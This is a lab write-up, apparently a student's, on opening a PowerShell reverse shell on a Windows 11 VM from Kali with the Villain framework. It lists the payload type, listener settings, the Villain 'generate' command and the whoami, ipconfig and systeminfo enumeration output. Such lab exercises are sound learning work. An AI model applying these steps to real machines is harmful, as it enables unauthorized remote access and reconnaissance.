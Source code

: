 # 🦹‍♂️ Villain Framework Reverse Shell Report

> **Lab-only disclaimer:** This exercise was performed strictly on my own isolated VMs for learning and defensive purposes. No third-party or production systems were targeted.

---

## ⚙️ Setup Info
| Parameter | Value |
|-----------|-------|
| Payload | `windows/reverse_tcp/powershell` |
| LHOST | `192.168.56.101` |
| LPORT | `8080` |
| Target OS | Windows 11 Home Single Language (Build 22631) |
| Attacker OS | Kali Linux |

---

## 🔁 Payload Delivery Method
- **Method:** Payload generated in Villain using `generate os=windows lhost=eth1`.
- **Execution:** The generated PowerShell command was executed on the target VM in a PowerShell terminal.
- **Network:** Host-only VirtualBox network between Kali attacker VM and Windows target VM.

---

## 🖥️ Captured Info
| Field | Value |
|-------|-------|
| Hostname | LAPTOP-JNNA97BM |
| IP Address | 192.168.56.1 |
| User | laptop-jnna97bm\lenovo |

---
## 🛑 Final Verification
![1](verification.png)

## 🔎 Enumeration Performed
```powershell
whoami
laptop-jnna97bm\lenovo

ipconfig
Ethernet adapter Ethernet 3:
   IPv4 Address. . . . . . . . . . . : 192.168.56.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

Wireless LAN adapter Wi-Fi:
   IPv4 Address. . . . . . . . . . . : 10.30.56.61
   Subnet Mask . . . . . . . . . . . : 255.255.255.0

systeminfo
Host Name:                 LAPTOP-JNNA97BM
OS Name:                   Microsoft Windows 11 Home Single Language
OS Version:                10.0.22631 N/A Build 22631
System Manufacturer:       LENOVO
System Model:              82K2
System Type:               x64-based PC
Processor(s):              AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~1908 Mhz
Total Physical Memory:     14,188 MB


